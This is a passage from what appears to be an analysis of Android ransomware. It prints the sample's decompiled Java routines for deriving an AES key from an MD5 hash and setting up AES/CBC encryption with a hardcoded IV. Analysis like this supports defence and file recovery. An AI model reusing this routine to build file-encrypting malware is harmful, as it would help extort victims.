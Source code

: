 This random string, representing an integer, is sent to the routine `getsss` (re-written):

> ```java
>public static final String getsss(String paramString) {
>	char[] arrayOfChar = new char[]{ 48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 97, 98, 99, 100, 101, 102 };
>	try {
>		byte[] bytes = paramString.getBytes();
>		MessageDigest digest = MessageDigest.getInstance("MD5");
>		digest.update(bytes);
>		byte[] hash = digest.digest();
>		int k = hash.length;
>		char[] chars = new char[k * 2];
>		for (int i = 0, j = 0; i < k; i++) {
>			int m = hash[i];
>			int n = j + 1;
>			chars[j] = arrayOfChar[(m >>> 4) & 0xF];
>			chars[n] = arrayOfChar[m & 0xF];
>			j = (n + 1);
>		}
>		return new String(chars).toString().substring(8, 24);
>	} catch (Exception e) {
>		e.printStackTrace();
>	}
>	return null;
>}
> ```

This value is finally used in the routine `initAESCipher` in order to create the final key (re-written):

> ```java
>private static Cipher initAESCipher(String key, int mode) {
>	Cipher cipher = null;
>	try {
>		IvParameterSpec iv = new IvParameterSpec("QQqun 571012706 ".getBytes());
>		SecretKeySpec keySpec = new SecretKeySpec(key.getBytes(), "AES");
>		cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
>		cipher.init(mode, keySpec, iv);
>	} catch (InvalidKeyException | InvalidAlgorithmParameterException | NoSuchAlgorithmException | NoSuchPaddingException e) {
>		e.printStackTrace();
>	} 
>	return cipher;
>}
> ```

## After the encryption

Back to `MainActivity.onCreate`. The malware shows the delicacy to change the wallpaper by calling `sss.bz`:
